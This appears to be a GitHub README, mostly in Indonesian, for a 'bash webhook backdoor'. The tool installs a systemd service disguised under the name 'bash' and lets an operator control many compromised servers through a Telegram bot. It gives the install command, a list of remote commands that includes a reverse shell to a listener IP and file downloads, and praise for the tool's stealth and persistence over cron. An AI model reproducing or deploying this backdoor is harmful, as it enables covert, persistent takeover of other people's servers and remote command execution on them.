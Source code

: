# bash webhook backdoor


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. startup command `bash` value
```
bash install.sh

✅ Service akan restart otomatis jika crash atau mati.
✅ Bisa dicek dengan systemctl status bash.


script ini berjalan untuk multi target itu kenapa di /nc_telegram.sh
ada bagian TARGET_ID=$(hostname)  # Gunakan hostname sebagai ID unik

tujuan nya untuk ketika menjalankkan di telegram comand nya seperti ini 
contoh 
server1 whoami
server2 whoami
server3 whoami

🔥 Keunggulan Metode Ini
✅ Tidak semua target merespon bersamaan, hanya target yang dipilih
✅ Bisa mengontrol banyak target dari satu bot Telegram
✅ Bisa melihat semua target yang aktif

apasaja yg bisa di jalankan di bot telegram 

perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


contoh Hasilnya akan dikirim balik ke Telegram:
📡 Target: server1
💻 Command: ls -la
📤 Output:
total 12
drwxr-xr-x  2 root root 4096 Feb 19 12:00 .
drwxr-xr-x 10 root root 4096 Feb 19 10:00 ..
-rw-r--r--  1 root root  123 Feb 19 12:00 example.txt


🔥 Kesimpulan
✅ Systemd lebih stealth/senyap dibanding crontab
✅ Bisa berjalan otomatis tanpa perlu cron
✅ Nama service bisa disamarkan jadi bash
✅ Restart otomatis jika mati

```
